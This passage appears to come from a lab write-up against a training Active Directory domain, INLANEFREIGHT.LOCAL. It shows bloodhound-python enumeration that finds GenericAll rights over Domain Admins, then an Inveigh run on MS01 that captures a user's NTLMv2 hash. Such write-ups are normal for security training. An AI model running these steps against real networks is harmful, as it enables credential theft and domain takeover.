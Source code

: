 ```bash
##/etc/resolv.conf
domain INLANEFREIGHT.LOCAL
nameserver 172.16.7.3
```

Run BloodHound:

```bash
bloodhound-python -d INLANEFREIGHT.LOCAL -dc dc01 -c ALL -u <domain_user> -p <password> --zip
```

Analysis shows a user has **GenericAll** rights over the `Domain Admins` group.

![](screenshots/11.png)


### Capturing NTLMv2 via Inveigh on MS01

To get this user’s credentials, we run **Inveigh** on MS01 (requires admin rights, so use service account credentials to rdp):

```powershell
.\Inveigh.ps1
```

Eventually, we capture:
```
[+] [07:05:08] SMB(445) NTLMv2 captured for [INLANEFREIGHT\<domain_user>] from 172.16.7.3(DC01):64222:
```
